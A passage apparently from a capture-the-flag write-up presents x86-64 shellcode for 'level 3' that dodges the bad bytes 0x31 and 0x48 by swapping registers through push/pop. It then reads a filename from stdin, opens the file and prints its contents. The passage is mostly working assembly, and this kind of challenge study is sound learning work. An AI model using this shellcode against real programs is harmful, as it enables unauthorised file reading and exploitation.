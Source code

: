 ```
; instruction   ; opcode
; --------------|-------
push rax        ; 0x50
push rbx        ; 0x53
pop rax         ; 0x58
pop rbx         ; 0x5b
```

The effect of this is that `rax` now contains the value of `rbx` and vice-versa. Without further ado, the shellcode for level 3:

```
bits 64

_start:

push byte 1
pop rbx
dec bl              ; rbx is now zeroed out, avoiding the bad chars 0x31 and 0x48. 

push rbx
pop rax             ; rax is now zeroed out too. 

push rbx
pop rdi             ; stdin is zero, so zero out rdi as well

push rsp            ; make rsi point to the top of the stack
pop rsi             ; the buffer for syscall read

push byte 18        ; read in 18 bytes
pop rdx
syscall

push rbx
pop rax
inc al
inc al              ; syscall open

;xchg rsi, rdi      ; we cannot use this xchg opcode because of 0x48!
push rdi            ; instead, do the exchange of rsi and rdi via the stack
push rsi
pop rdi             ; rdi is now pointing to the filename on the stack
pop rsi             ; rsi is now zero (flag O_RDONLY)

syscall
                    ; pull a similar trick here, swapping around three registers
push rax            ; fd of just opened file
push rsi            ; rsi = 0
push rdi            ; rdi = pointer to top of stack
pop rsi             ; rsi = buf
pop rax             ; rax = 0 syscall read
pop rdi             ; rdi = fd

push byte 127
pop rdx             ; amount of bytes to read
syscall             ; syscall read

push rbx
pop rax
inc al              ; syscall write
push rax            ; copy rax (==1) to rdi
pop rdi             ; 1 = stdout
                    ; rsi = still pointing to buffer with contents of file
                    ; rdx = still 0x7f
```